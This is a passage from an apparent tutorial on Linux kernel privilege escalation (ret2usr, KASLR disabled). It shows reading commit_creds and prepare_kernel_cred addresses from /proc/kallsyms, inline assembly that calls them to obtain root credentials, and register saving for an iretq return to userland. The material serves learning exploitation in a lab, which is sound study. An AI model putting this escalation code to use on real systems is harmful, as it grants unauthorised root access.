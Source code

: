Since `KASLR` is disabled, the addresses where these functions reside in is constant across every boot. Therefore, we can just easily get those addresses by reading `/proc/kallsyms` file using these shell commands:
```bash
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred
```

Then the code to achieve root privileges can be written as follows (you can write it in many different ways, it's just simply calling 2 functions consecutively using one's return value as the other's parameter, I just saw this in a writeup and copied it):
```C
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        ...
        ".att_syntax;"
    );
}
```

{{< admonition tip "Tip" >}}
*You can take note of the way I write the code, it is a very clean way of writing in-line assembly in C code using `intel syntax`.*
{{< /admonition >}}

### Returning to userland
At the current state of the exploitation, if you simply return to a `userland` piece of code to pop a shell, you will be disappointed. The reason is because after running the above code, we are still executing in `kernel-mode`. In order to open a root shell, we have to return to `user-mode`. 

Basically, if the kernel runs normally, it will return to userland using 1 of these instructions (in x86_64): `sysretq` or `iretq`. The typical way that most people use is through `iretq`, because as far as I know, `sysretq` is more complicated to get right. The `iretq` instruction just requires the stack to be setup with **5 userland register values** in this order: `RIP|CS|RFLAGS|SP|SS`.

The process keeps track of 2 different sets of values for these registers, one for `user-mode` and one for `kernel-mode`. Therefore, after finishing executing in `kernel-mode`, it must revert back to the `user-mode` values for these registers. For `RIP`, we can simply set this to be the address of the function that pops a shell. However, for the other registers, if we just set them to be something random, the process may not continue execution as expected. To solve this problem, people have thought of a very clever way: *save the state of these registers before going into kernel-mode, then reload them after gaining root privileges*. The function to save their states is as follow:
```C
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
```
